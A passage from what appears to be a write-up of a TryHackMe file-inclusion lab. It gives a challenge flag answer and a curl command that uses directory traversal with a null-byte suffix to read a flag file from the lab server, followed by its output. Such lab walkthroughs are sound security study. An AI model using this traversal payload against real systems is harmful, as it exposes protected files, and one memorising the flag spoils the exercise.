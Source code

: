 ![Challenge 2 - Flag](/images/thm/fileinc/fileinc_11.png)
_Challenge 2 - Flag_

Answer : c00k13_i5_yuMmy1

We see after few tries that there is a .php extension add to the request, so we need to escape this.

```console
root@ip-10-10-29-157:~# curl -d "file=../../../etc/flag3%00" -X POST http://10.10.218.7/challenges/chall3.php --output file.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1952  100  1926  100    26   940k  13000 --:--:-- --:--:-- --:--:--  953k
root@ip-10-10-29-157:~# cat file.txt 

<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Lab #Challenge 3</title>


    <!-- Bootstrap core CSS -->
    <link href="./css/bootstrap.min.css" rel="stylesheet">

    <!-- Custom Stylesheet -->
    <link href="./css/style.css" rel="stylesheet">

    <!-- Core libraries bootstrap & jquery -->
    <script src="./js/bootstrap5.min.js"></script>
    <script src="./js/jquery-3.6.0.min.js"></script>

    <!-- Custom JS code -->
    <script src="./js/script.js"></script>
```
